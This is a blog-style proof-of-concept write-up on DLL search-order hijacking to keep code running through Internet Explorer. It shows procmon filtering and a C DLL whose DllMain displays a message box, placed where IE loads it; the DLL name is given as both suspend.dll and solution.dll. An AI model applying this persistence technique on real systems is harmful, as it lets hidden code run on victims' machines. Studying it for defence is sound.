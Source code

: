 ```yaml
---
title: "Demonstration of Malware Persistence through Microsoft Internet Explorer"
---
```



One of the most undeniable and topics concern with Microsoft\'s smash hit Windows is the bloat in software and features. It is a focal point point in malware targeting, abusing poorly designed systems and preying on it\'s huge userbase.

All of it undeniably ties in into The Browser Wars Microsoft found themselves in, all tech corps trying to shill their spyware packaged with an open-source web browser engine. Besides my serious non important opinions on the matter, I think we\'re all familiar with Internet Explorer, an old piece of tech that still comes packaged on all Windows systems and is damn near impossible to get rid off.

Per usual, let\'s try to abuse the fact it is so atomic to Window\'s user experience and try to achieve some sort of malware persistence.
I opened procmon from the sysinternals utilities suite looking for potential DLL injections, in the case IE tries to load non existent / or creates it\'s own DLLs we\'re able to intervene and load our \"malicious\" ones. \
Using these filters, we can look for specific kinds of DLLs that only exist on runtime:

![](../img/iepersistence/filters.png)

Let\'s open the executable and observe :3

![](../img/iepersistence/launch.png)

So many\.\.\. We need to look for files that are used exclusively by IE, one that came up that has a readable and non suspicious name is suspend\.dll.

Here\'s a \"malicious\" DLL we can use to emulate code execution needed for persistence, a real malware would hide here persistent code.
```
#include <windows.h>
#include "pch.h"
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBox(
            NULL,
            L"you just got pwned~",
            L"/ᐠ. ᴗ.ᐟ\\ﾉ",
            MB_OK
        );
        break;
    case DLL_PROCESS_DETACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}
```

Time for compilation, I will use Visual Studio\'s built in solutions although it is fairly flexible.
After it\'s done, we need to put it where IE loads it from and rename it to solution.dll:
![](../img/iepersistence/cp.png)
![](../img/iepersistence/pwn.png)

### WOW, we got our pwn~\
Our code got executed and then Internet Explorer launched per normal. This is pretty pretty cool.\.\.

\
*What can we take away from this?* \
\
While this particular proof of concept has been patched somewhere last year\, I believe it holds a lot of relevancy in practices of persistence and malware design as a whole.\
Looking for fundemental features Microsoft doesn\'t want to get rid off \(nor can\'t\) and find flaws in their behaviour is a cornerstone in this field. In addition, DLL injection in this way is incredibly simple yet demonstrates understanding of Windows Internals.